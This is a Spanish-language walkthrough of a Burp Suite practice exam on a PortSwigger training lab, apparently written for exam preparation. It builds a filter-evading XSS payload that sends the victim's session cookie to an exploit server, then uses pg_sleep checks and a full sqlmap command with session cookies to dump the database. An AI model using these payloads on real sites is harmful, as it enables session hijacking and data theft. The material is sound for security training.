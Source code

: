 # Examen de prueba de burpsuite

>Importantisimo que cuando abrimos ventana nueva no nos de el problema js... eso es un problema y hay que ver si entramos directamente en el examen desde burpsuite

Este problema puede darnoslo también si cogemos y usamos también windows...

Este examen no te dan ninguna información , únicamente una web que está en 3 pasos

1º Obtener la entrada como un usuario
2º obtener una entrada de administrador
3º obtener una flag

## Analizando la web sin usuario

De momento:
- solo podemos ver entradas
- solo podemos buscar

Dom invader nos detecta un posible ataque

![](assets/2022-07-16-10-33-41.png)

Intentaremos hacer un XSS para robar las cookies XSS GET COOKIES

1. Lo primero es conseguir lanzar un alert en la web. 

Lanzamos un alert y nos aparece como está formada la llamada

![](assets/2022-07-16-10-36-25.png)

Si vemos. Tendríamos que cerrar el search term por completo y luego poner el alert.

cerramos las comillas y llaves y ponemos alert()

![](assets/2022-07-16-10-37-47.png)

Una vez tenemos esto aún no se lanza y es que tenemos todavía un "} final.

Lo que hacemos es comentar el resto con //

Sigue sin funcionar, cerramos con ; detrás de }

Ya si funciona

![](assets/2022-07-16-10-43-55.png)

2. Ahora vamos a intentar hacer un document.cookie en el alert
```html
"};alert(document.cookie);//
```

Nos aparece que es pontencialmente peligoroso utilizar document.cookie



Haciendo diferentes pruebas conseguimos ver que lo que está diciendo que no permite es el punto.
Probamos:
- document solo
- cookie
- document . y da fallo 

> Los objetos en javascript son diccionarios que asignan atributos.
> document.cookie == document['cookie']

```
adfa"};alert(document['cookie']);//
```

![](assets/2022-07-16-10-55-20.png)

Vale ya vemos como poder obtener una cookie en nuestro pc, esto de por si no vale para nada, solo estamos probando que funciona para que cuando le enviemos al usuario victima no de problemas.

¿Cómo hacemos que nos llegue a nosotros la información? Necesitamos que el victima vaya a nuestra web que tenemos monitorizada y le salte el document['cookie']

Sabemos el uso de document.location, por lo que le asignamos nuestra web y el script. Hay que tener en cuenta que el . no deja ponerlo por lo que sería document['location']=nuestrawebdeexploit+document['cookie']

A todo esto hay que dejar como el parámetro que se pueda poner un script por lo que:
Como no funcionan los puntos cambiamos por %2e

Intentamos que nos redirija al servidor de explotación

aa"};document['location']='https://exploit-0a7b009b031d60b5c0bc267901100013%2eweb-security-academy%2enet/exploit' + document['cookie']//

Importante hay que poner el que acepte una q con ?q=

Sino aparece 
![](assets/2022-07-16-19-22-36.png)


aadfaf"};document['location']='https://exploit-0acd00c504354316c08d035a0129005e%2eweb-security-academy%2enet/exploit?q=' + document['cookie']//


![](assets/2022-07-16-19-23-24.png)

Llegado a este paso ya podemos intentar hacer que un usuario nos de su cookie por el servidor de explotacion.

Una vez que vamos al sevidor de explotacion

```mermaid
graph LR

A[Servidor de explotacion]-->B[Colocamos el location ='']-->|dentro irá la url que copieemos en burprepeater|C[guradamos, lanzamos y vemos el log su cookie.]
```

Botón derecho copiar ulr para que esté la url completa

```html
1. Creamos la base

<script>
location=''
</script>

2. Insertamos la url

https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/search_res?SearchTerm=aadfaf%22%7D%3Bdocument%5B%27location%27%5D%3D%27https%3A%2F%2Fexploit-0acd00c504354316c08d035a0129005e%252eweb-security-academy%252enet%2Fexploit%3Fq%3D%27+%2B+document%5B%27cookie%27%5D%2F%2F

3. Url completa

<script>
location='https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/?SearchTerm=aadfaf%22%7D%3Bdocument%5B%27location%27%5D%3D%27https%3A%2F%2Fexploit-0acd00c504354316c08d035a0129005e%252eweb-security-academy%252enet%2Fexploit%3Fq%3D%27+%2B+document%5B%27cookie%27%5D%2F%2F'
</script>


```
![](assets/2022-07-16-19-29-38.png)

Ya tenemos la cookie, ahora solo nos la ponemos en nuestro explorador y listo.

```
vK585JTUgZOal8Poo7pPA5e1BkcJQsrr
```

Ya estamos dentro.

## Paso 2

```mermaid
graph LR
A[Probar donde hay injection]-->B[Tipo de base de datos con sleep]-->C[sqlmap url+cookie+dmbs+technique]-->D[--tables]-->E[-D table --dumps]
```

1. Al tener varios parámetros vemos que parámetros son atacables

Ataque stack en sus variantes 

; select sleep(5)--d

2. Base de datos?

funciona con ;select pg_sleep(5)-- por lo que es postgree


3. Atacamos poniendo un *donde queremos atacar, en este caso date
- -u "url"
- --cookie="cookie"
- dbms=postgresql
- technique=ES  --> error y stacke. Podría ser union etc
  

```sql
sqlmap -u "https://0a5100e804224326c0f2039300d4003f.web-security-academy.net/filtered_search?SearchTerm=&sort-by=DATE*&writer=" --cookie="_lab=47%7cMC0CFQCVQW%2buyAPkkuR%2bKcQCXypYsIw2SQIUdjeus9BV0mOWwxYoaUkfCN0AxrZ9OIGla08Iokf74UPxWl8imlSBzCKbbNOnbc2V4NY4uDKGAN6pAAY0lTOmA2zmAIzdhko2RbZ8imN0z%2fhaBn5lI7VOgpLot7gDkfM7kWlzrbZwxnlE; session=uDNLBXhY2KxFXwtd3aEQrEp9TCwpR1Ww" technique=E --dbms=postgresql 
```
4. Una vez nos devuelve la base de datos añadimos -D database --tables
5. Una vez que sabemos las tablas devolvemos el resultado --dumps


![](assets/2022-07-17-11-29-52.png)